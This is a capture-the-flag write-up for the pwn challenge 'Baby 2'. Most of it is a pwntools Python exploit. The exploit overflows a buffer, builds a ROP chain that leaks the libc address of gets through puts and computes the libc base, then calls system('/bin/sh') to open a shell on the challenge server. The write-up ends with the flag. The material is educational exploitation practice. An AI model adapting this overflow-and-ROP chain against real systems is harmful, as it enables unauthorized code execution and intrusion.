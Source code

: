 # Baby 2

Categories: pwn baby pwned! <br/>
Description: When Swordfish came out, these were considered some state of the art techniques. Let's see if you have what it takes. <br/>
File: [baby2](baby2), [libc.so.6](libc.so.6)

## Solution

This time the binary does not contains a `win` function. Assuming ASLR is enabled on the remote target, I first leaked a
known address and calculated the offset.

```python
from pwn import *

isRemote = args['REMOTE']

binary = './baby2'
localElf = '/usr/lib/libc.so.6'
remoteElf = './libc.so.6'

context.binary = binary

elf = ELF(binary)
libc = ELF(remoteElf if isRemote else localElf)

p = remote('baby-01.pwn.beer', 10002) if isRemote else elf.process()
p.recvuntil('input: ')

r = ROP(elf)
r.puts(elf.got['gets'])
r.main()

p.sendline('A' * 24 + str(r))

leak = p.recvuntil('input: ')
leaked_gets = u64(leak[:6].ljust(8, '\x00'))
libc.address = leaked_gets - libc.sym['gets']
```

Now I could simply call `system` with the correct parameter:

```python
r = ROP(libc)
r.raw(r.find_gadget(['ret']).address) # align the stack
r.system(next(libc.search('/bin/sh')))
p.sendline('A' * 24 + str(r))

p.interactive()
```

The flag was `sctf{An0tH3r_S1lLy_L1Ttl3_R0P}`.
